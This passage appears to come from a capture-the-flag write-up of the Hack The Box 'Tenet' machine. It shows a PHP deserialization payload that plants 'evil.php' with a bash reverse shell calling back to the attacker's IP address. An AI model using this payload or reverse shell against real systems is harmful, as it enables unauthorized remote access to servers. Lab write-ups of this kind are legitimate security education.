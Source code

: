 ![](/assets/img/htb-tenet/2021-05-29-20-18-26.png)
In the screenshot above, we see that the target is able to ping back to our kali machine.

## Foothold
Since the ping command worked, I replaced the ping with a reverse shell as shown below.

```php
<?php
class DatabaseExport {
    public $user_file = 'evil.php';
    public $data = '<?php exec("bash -i >& /dev/tcp/10.10.14.59/9001 0>&1"); ?>';
}
print urlencode(serialize(new DatabaseExport))
?>
```

![](/assets/img/htb-tenet/2021-05-29-20-35-59.png)
